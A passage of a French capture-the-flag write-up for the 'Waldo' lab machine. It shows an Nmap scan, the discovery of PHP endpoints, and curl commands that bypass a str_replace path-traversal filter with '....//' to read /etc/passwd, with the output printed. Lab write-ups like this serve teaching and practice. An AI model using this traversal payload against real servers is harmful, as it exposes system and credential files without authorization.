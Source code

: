# Waldo writeups by Seyptoo.

![forthebadge made-with-python](http://image.noelshack.com/fichiers/2019/02/2/1546971003-capture-du-2019-01-08-19-09-54.png)

Informations
----
    Ip :  10.10.10.87       Created by :  strawman & capnspacehook 
    Level : Easy            Base Points : 30
    
Nmap Scan
----
    Starting Nmap 7.01 ( https://nmap.org ) at 2019-01-08 19:08 CET
    Nmap scan report for 10.10.10.87
    Host is up (0.065s latency).
    Not shown: 997 closed ports
    PORT     STATE    SERVICE        VERSION
    22/tcp   open     ssh            OpenSSH 7.5 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
    |_  256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
    80/tcp   open     http           nginx 1.12.2
    |_http-server-header: nginx/1.12.2
    | http-title: List Manager
    |_Requested resource was /list.html
    8888/tcp filtered sun-answerbook

Le port 22 pour le **SSH**, le 80 pour le serveur **HTTP**. Allons voir ça de beaucoup plus près. Nous avons également des informations sur le serveur HTTP il y'a un fichier qui se nomme /list.html donc nous allons énumérer ça.

HTTP
----
Sur la page HTTP on peut pas faire grand chose on peut seulement ajouter des listes.. mais cela n'est pas suffisant pour l'énumération.
Si nous regardons la source de la page il y'a des informations. Il y'a un fichier javascript donc je suis aller voir de plus près.

    <html>
      <head>
        <title>List Manager</title>
        <script src="/list.js"></script>
        [...SNIP...]
        
Il y'a des fonctions sur le fichier javascript. Donc nous avons trouver plusieurs fichiers PHP.

fileWrite.php (Fichier pour créer des listes) Paramètre : listnum=&data=<br />
fileDelete.php (Fichier pour supprimer des listes) Paramètre : listnum=<br />
fileRead.php (Fichier pour lire des fichiers sensibles) Paramètre : file=<br />
dirRead.php (Fichier pour lire les répértoires) Paramètre : path=<br />

On va plus s'intéréssé au fichier fileRead.php et dirRead.php ils sont beaucoup plus utiles.

    root@:~/# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=fileRead.php"|jq -r .file
    <?php


    if($_SERVER['REQUEST_METHOD'] === "POST"){
            $fileContent['file'] = false;
            header('Content-Type: application/json');
            if(isset($_POST['file'])){
                    header('Content-Type: application/json');
                    $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                    if(strpos($_POST['file'], "user.txt") === false){
                            $file = fopen("/var/www/html/" . $_POST['file'], "r");
                            $fileContent['file'] = fread($file,filesize($_POST['file']));  
                            fclose();
                    }
            }
            echo json_encode($fileContent);
    }
    
Voilà on a réussis à lire le fichier fileRead.php comme pour on peut le voir il y'a du str_replace.

    root@:~/# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=../../../../../../etc/passwd"|jq
    {
      "file": false
    }
    
Donc si nous essayons de lire le fichier passwd sur le dossier /etc.

    root@:~/# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=../../../../../../etc/passwd"|jq
    {
      "file": false
    }
    
Donc impossible de lire ça, nous devons bypass ça. Il y'a du str_array() donc pour bypass ça vous devez simplement faire ....//....//....//....//....//....//directory/file

    root@:~/# curl -s -X POST http://10.10.10.87/fileRead.php -d "file=....//....//....//etc/passwd"|jq -r .file
    root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin

Parfait nous avons réussis à lire le fichier passwd.

    root@:~/# cat passwd_list|awk -F: '{print $1, $6}' passwd_list|grep '/home'
    nobody /home/nobody
